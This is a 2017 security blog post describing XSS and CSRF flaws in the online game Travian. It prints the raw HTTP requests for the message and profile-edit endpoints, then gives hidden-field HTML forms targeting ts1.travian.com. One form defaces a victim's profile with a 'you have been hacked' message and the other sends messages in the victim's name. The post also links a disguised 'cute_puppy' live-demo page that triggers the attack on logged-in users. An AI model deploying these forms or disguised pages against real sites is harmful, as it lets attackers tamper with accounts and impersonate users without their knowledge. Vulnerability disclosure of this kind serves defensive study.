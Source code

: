 ```yaml
---
layout: post
title:  "Hacking Travian Profiles (CSRF)"
date:   2017-02-12
tags:
- CSRF
- Hacking
- Web
- Security
- Travian
- HTTP
categories: jekyll update
---
```


I detected multiple XSS and CSRF vulnerabilities in [Travian](http://travian.com/){:target="_blank"} (Online game).

- The in-game messaging system of Travian did not espace {}<>'" and, when sending messages to other users, I could embed malicious JS code in messages, Which got executed upon opening
- "Edit profile" was not CSRF-protected
- "Send message" was not CSRF-protected

Here are how HTTP requests looked like:


HTTP request to send message in Travian (summarized):

    POST /messages.php?t=1 HTTP/1.1
    Host: ts1.travian.com
    Cookie: <cookie data>
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 37

    an=odysseus&be=subject1&message=body1


HTTP request to edit profile in Travian (summarized):

    POST /spieler.php HTTP/1.1
    Host: ts1.travian.com
    Cookie: ...
    Connection: close
    Content-Type: application/x-www-form-urlencoded

    e=2&uid=19948&did=73537&tag=&monat=0&jahr=&mw=1&ort=hi&be1=test1&be2=test2&dname%5B73537%5D%3D=Ithaca&s1=Save

Surprisingly, none of `did` or `uid` were checked to protect against CSRF. I could easily setup a web page, and send a link to other users that upon opening:

- A message was sent on their behalf to another user
- Their profile info was modified (by me)

Forms to simulate the HTTP requets:

Hack user profile:

```html
    <form id="hackprofile" method="POST" action="http://ts1.travian.com/spieler.php">
        <input type="hidden" name="ort" value="Your profile has been hacked. Please delete your profile">
        <input type="hidden" name="be1" value="Your profile has been hacked. Please delete your profile">
        <input type="hidden" name="be2" value="Your profile has been hacked. Please delete your profile">
        <input type="hidden" name="e" value="2">
        <input type="hidden" name="mw" value="1">
        <input type="hidden" name="s1" value="Save">
    </form>
```

Send message on behalf of user:

```html
<form id="msg" method="POST" action="http://ts1.travian.com/messages.php?t=1">
    <input type="hidden" name="an" value="odysseus">
    <input type="hidden" name="be" value="Test">
    <input type="hidden" name="message" value="Hi">
</form>
```

screnshots:

![Travian user profile](/images/travian-hack1.png){:width="300"}

![Travian sent messages](/images/travian-hack2.png){:width="300"}


Live demo can be viewed [here](/html/exploits/travian_hack/cute_puppy.html){:target="_blank"} (Works only if you are logged into [t1.travian.com](t1.travian.com)).
